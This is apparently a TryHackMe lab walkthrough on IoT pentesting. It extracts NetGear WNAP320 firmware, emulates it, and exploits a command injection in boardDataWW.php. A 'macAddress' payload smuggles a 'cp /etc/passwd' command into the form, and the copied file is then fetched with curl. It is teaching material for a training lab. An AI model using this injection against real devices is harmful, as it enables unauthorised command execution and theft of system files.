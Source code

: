 # Tryhackme Room Link

**https://tryhackme.com/room/iotintro**  

A beginner friendly walkthrough for internet of things (IoT) pentesting.
----------------------  


##  [Task 1] Foreword   

Deploy the machine  

 ---------------------- 

##  [Task 2] A little theory 

-----------------------

##  [Task 3] Connecting to the machine 

connect via ssh with the given credentials

**Username: iot
Password: tryhackme123!**

**ssh iot@<machineip>**

------------------------

## [Task 4] Unpacking the firmware 

The firmware we are going to use is from NetGear and was used for Access Points (now it's been superceded by another version). In case you want to download it locally on your     
download link: http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip    

lets unzip the archive  

**unzip WNAP320\ Firmware\ Version\ 2.0.3.zip**  

**tar -xf WNAP320_V2.0.3_firmware.tar**  

**binwalk -e rootfs.squashfs**  

now look at the extracted folder  

It looks like linux filesystems.  

If you go into /home/www you'll find the web applications that is used.   

lets found which application is vulnerable manually   

## [Task 5] Attacking the application   

e'll take a look at "boardDataWW.php". This file contains a Command Execution vulnerability.  

The vulnerable function is the exec() one. The exec() function executes an external program without displaying the information (basically it's a blind command execution).  

Elevate your shell and copy rootfs.squashfs to firmware-analysis-toolkit folder and change the owner of the file to root.  

**sudo -s**  

copy the file   

**ccp rootfs.squashfs firmware-analysis-toolkit/**  

own the file by specifying the user and the group  

**chown root:root rootfs.squashfs**  

Now, let's kick off fat (firmware analysis toolkit) and emulate the system.  

**./fat.py rootfs.squashfs**

Take note to the IP that is outputted (usually is 192.168.0.100) and press enter to continue the emulation.  

Once the emulation is done, create a port forward on your machine (the attacker machine) using SSH as follows:     

**ssh -N iot@<machine ip> -L 8081:192.168.0.100:80**   

Now, if you access **http://localhost:8081** on your browser you should be able to access the web application (it's a NetGear AP).  

default credentials    
**username: admin**  
**password:password**  

Once logged in, change the url to http://localhost:8081/boardDataWW.php. In the MAC Address field add some junk data  

intercept it with burp  

You'll notice a delay, which means the application is vulnerable to Command Execution. Let's copy the passwd file:  

change it to **macAddress=237864876543;+cp+/etc/passwd+.+#**

and **curl http://localhost:8081/passwd**  

 you have successfully attacked the IoT system   

 






  







